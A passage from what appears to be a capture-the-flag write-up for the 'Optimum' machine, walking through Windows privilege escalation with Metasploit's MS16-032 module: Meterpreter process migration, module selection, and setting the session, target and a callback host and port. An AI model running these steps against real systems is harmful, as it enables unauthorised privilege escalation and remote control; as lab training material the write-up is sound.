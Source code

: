Let's search to see if we can find MS16-032 in metasploit:

    search MS16-032

![](/images/optimum/14. search.png)

This exploit exists as a Metasploit module, however it is very finnicky and does not always work. Fortunately we can work through it. To start we will migrate our current low-privileged Meterpreter shell into a 64-bit process.  (This is best practice, but not required)

    ps

![](/images/optimum/15. ps.png)

(output trimmed)
![](/images/optimum/15. ps_2.png)


At the bottom of the ps output we have x64 processes. Let's migrate to one of those, like explorer.exe

    migrate 2160

![](/images/optimum/16. migrate.png)

Now we background the meterpreter session and load up our local exploit module: Ctrl+z 

    search ms16-032

    use 0

![](/images/optimum/17. search.png)

Next we check out our options

    show options

    set session 2

    set target 1

![](/images/optimum/18. options.png)

Here we set our session to the meterpreter session we backgrounded, and then set our target to 1 for 64-bit. Show options again to confirm, then run!

    show options

    run

![](/images/optimum/19. run.png)

Note, the first time you run it, you may need to kill the session and then set lhost and lport. I've already done that in the below using the following commands:

    set lhost 10.10.14.24

    set lport 17012

